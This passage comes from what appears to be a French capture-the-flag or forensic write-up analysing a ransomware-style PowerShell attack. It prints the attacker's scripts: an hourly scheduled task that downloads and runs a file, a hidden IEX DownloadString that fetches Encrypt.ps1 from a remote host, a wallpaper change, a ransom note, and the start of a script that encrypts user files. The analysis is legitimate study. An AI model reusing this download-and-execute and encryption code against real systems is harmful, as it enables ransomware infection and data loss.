 ```ps1

### Schedule task
$taskName = "IGotYourFileInfo"

# Create the scheduled task that get some file information
$cmd = "Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile"
schtasks /create /tn $taskName /sc HOURLY /tr $cmd

#Encrypt some file

powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c "& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}"

## Change wallpaper
$webClient = New-Object System.Net.WebClient
$wallpaperUrl = "http://$IP_addr/Holmes/wallpaper.jpg"
$wallpaperPath = "$env:USERPROFILE\Desktop\wallpaper.jpg"
$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)

## Set the wallpaper
$regKey = "HKCU:\Control Panel\Desktop"
Set-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath
$wallpaperStyle = "3"
Set-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle
$tileWallpaper = "0"
Set-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper

# Forcer l'actualisation du bureau
Start-Process -FilePath "RUNDLL32.EXE" -ArgumentList "USER32.DLL,UpdatePerUserSystemParameters ,1 ,True" -Wait

## Create text file
$fileContent = "YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE"
Set-Content "$env:USERPROFILE\Desktop\instructions.txt" -Value $fileContent
# Open text file
Invoke-Item "$env:USERPROFILE\Desktop\instructions.txt"
```

Ce script est celui qui a très certainement été lancé en premier, il va créer la tâche planifiée vu avant, chiffrer les fichiers, changer le fond d'écran et créer le fichier instructions.txt.

La seule ligne qui nous intéresse pour déchiffrer les fichier est celle la:
`powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c "& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}"`

Elle appelle le script **Encrypt.ps1** qui est en charge de chiffrer les fichiers sur le bureau.

#### Encrypt.ps1

```ps1
# Define the directories to search for files
$IP_addr = '172.21.195.17:5000'
$directories = @("$env:USERPROFILE")

# Define the file extensions to encrypt
$extensions = @(".png", ".doc", ".txt", ".zip")
$keyUrl = "http://$IP_addr/Holmes/key.txt"

# Download the key from the URL
$keyContent64 = Invoke-WebRequest -Uri $keyUrl | Select-Object -ExpandProperty Content
$keyContent = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($keyContent64))

# Use SHA-256 hash function to produce a 32-byte key
$sha256 = [System.Security.Cryptography.SHA256]::Create()
```